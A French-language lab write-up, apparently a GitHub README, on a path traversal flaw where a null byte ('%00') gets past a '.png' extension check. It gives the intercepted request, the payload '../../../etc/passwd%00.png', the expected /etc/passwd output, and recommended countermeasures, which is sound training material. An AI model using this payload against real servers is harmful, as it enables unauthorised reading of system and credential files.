 
# 🧪 Lab 5 - File Path Traversal: Validation de l’Extension contournée avec Null Byte (%00)

---

## 🔍 Description du Lab

Ce lab illustre une vulnérabilité **Path Traversal** combinée à une mauvaise validation de **l’extension de fichier**.  
L’application exige que le nom de fichier se termine par `.png`, mais elle **valide l’extension avant** d’utiliser la valeur, ce qui permet un **contournement via un byte nul (`%00`)**.

---

## 🎯 Objectif

Exploiter la faille pour lire le contenu du fichier système :
```

/etc/passwd

```

---

## 🛠️ Outils utilisés

- ⚔️ **Burp Suite**
- 🧠 Connaissances des encodages (`%00`, null byte)
- 🌐 Navigateur Web avec proxy configuré

---

## 🚦 Étapes d’exploitation

### 1. Intercepter une requête d’image

- Intercepte une requête du type :
```

GET /image?filename=product1.png

```

### 2. Analyser la protection

- L’application vérifie que `filename` se termine par `.png`
- Mais elle **utilise la valeur directement** ensuite, sans revalider

### 3. Injecter un **chemin malicieux** avec un **null byte**

- Remplace `filename` par :
```

../../../etc/passwd%00.png

```

- `%00` représente le **byte nul**, souvent interprété comme **fin de chaîne** par certains langages (ex: C, anciens parseurs PHP...).

### 4. Résultat

L’application pense traiter :
```

filename = "../../../etc/passwd%00.png" → se termine par .png ✅

```

Mais le serveur lit réellement :
```

../../../etc/passwd

```

---

## ✅ Vérification

Tu dois voir en réponse :
```

root\:x:0:0\:root:/root:/bin/bash
daemon\:x:1:1\:daemon:/usr/sbin:/usr/sbin/nologin
...

```

---

## 📸 Capture d’écran (à ajouter)

Ajoute ici une capture Burp Suite avec la requête exploitée et la réponse réussie.

![Path-Traversal](https://github.com/Kabilala/path-traversal/blob/main/lab6/lab6.png)

---

## 🛡️ Contremesures recommandées

- ✅ Toujours **valider le chemin complet et l’extension après décodage**
- 🧼 **Neutraliser les bytes nuls** (null byte) dans les paramètres utilisateur
- 📦 N’autoriser que des fichiers prédéfinis via une **liste blanche**
- 🔍 Effectuer une validation **côté serveur**, pas juste dans la logique applicative

---

## 🎓 Concepts clés

| Terme             | Description |
|------------------|-------------|
| `%00`            | Null byte en encodage URL |
| Validation naïve | Vérifie l’extension sans analyser la partie avant `%00` |
| Bypass d’extension | Permet de tromper la vérification par suffixe `.png` |

---